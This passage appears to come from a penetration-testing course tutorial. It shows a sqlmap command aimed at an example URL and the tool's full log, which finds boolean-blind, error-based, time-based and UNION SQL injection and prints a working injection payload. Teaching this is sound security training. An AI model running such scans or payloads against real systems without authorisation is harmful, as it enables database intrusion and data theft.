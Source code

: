 To run SQLMap against this example, located at the example URL `http://www.example.com/vuln.php?id=1`, would look like the following:

```shell
trop3n@htb[/htb]$ sqlmap -u "http://www.example.com/vuln.php?id=1" --batch
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.9}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[*] starting @ 22:26:45 /2020-09-09/

[22:26:45] [INFO] testing connection to the target URL
[22:26:45] [INFO] testing if the target URL content is stable
[22:26:46] [INFO] target URL content is stable
[22:26:46] [INFO] testing if GET parameter 'id' is dynamic
[22:26:46] [INFO] GET parameter 'id' appears to be dynamic
[22:26:46] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')
[22:26:46] [INFO] heuristic (XSS) test shows that GET parameter 'id' might be vulnerable to cross-site scripting (XSS) attacks
[22:26:46] [INFO] testing for SQL injection on GET parameter 'id'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[22:26:46] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[22:26:46] [WARNING] reflective value(s) found and filtering out
[22:26:46] [INFO] GET parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="luther")
[22:26:46] [INFO] testing 'Generic inline queries'
[22:26:46] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[22:26:46] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
...SNIP...
[22:26:46] [INFO] GET parameter 'id' is 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable 
[22:26:46] [INFO] testing 'MySQL inline queries'
[22:26:46] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[22:26:46] [WARNING] time-based comparison requires larger statistical model, please wait........... (done)                                                                                                       
...SNIP...
[22:26:46] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[22:26:56] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[22:26:56] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[22:26:56] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[22:26:56] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[22:26:56] [INFO] target URL appears to have 3 columns in query
[22:26:56] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 46 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 8814=8814
```